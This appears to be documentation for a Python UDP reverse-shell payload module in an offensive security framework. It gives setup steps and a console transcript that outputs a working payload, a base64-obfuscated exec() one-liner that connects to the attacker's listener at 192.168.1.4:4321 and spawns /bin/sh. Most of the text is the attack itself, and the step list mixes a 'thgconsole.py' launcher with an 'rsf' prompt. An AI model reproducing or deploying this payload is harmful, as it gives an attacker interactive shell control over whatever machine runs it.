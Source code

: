 ## Description

Module generates payload that creates interactive udp reverse shell by using python. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/python/reverse_udp`
  3. Do: `set lhost 192.168.1.4`
  3. Do: `set lport 4321`
  4. Do: `run`
  5. Module generates python udp reverse shell payload

## Scenarios

```
rsf > use payloads/python/reverse_udp
rsf (Python Reverse UDP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (Python Reverse UDP) > set lport 4321
[+] lport => 4321
rsf (Python Reverse UDP) > run
[*] Running module...
[*] Generating payload
exec('aW1wb3J0IG9zCmltcG9ydCBwdHkKaW1wb3J0IHNvY2tldApzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsIHNvY2tldC5TT0NLX0RHUkFNKQpzLmNvbm5lY3QoKCcxOTIuMTY4LjEuNCcsNDMyMSkpCm9zLmR1cDIocy5maWxlbm8oKSwgMCkKb3MuZHVwMihzLmZpbGVubygpLCAxKQpvcy5kdXAyKHMuZmlsZW5vKCksIDIpCnB0eS5zcGF3bignL2Jpbi9zaCcpOwpzLmNsb3NlKCkK'.decode('base64'))
```
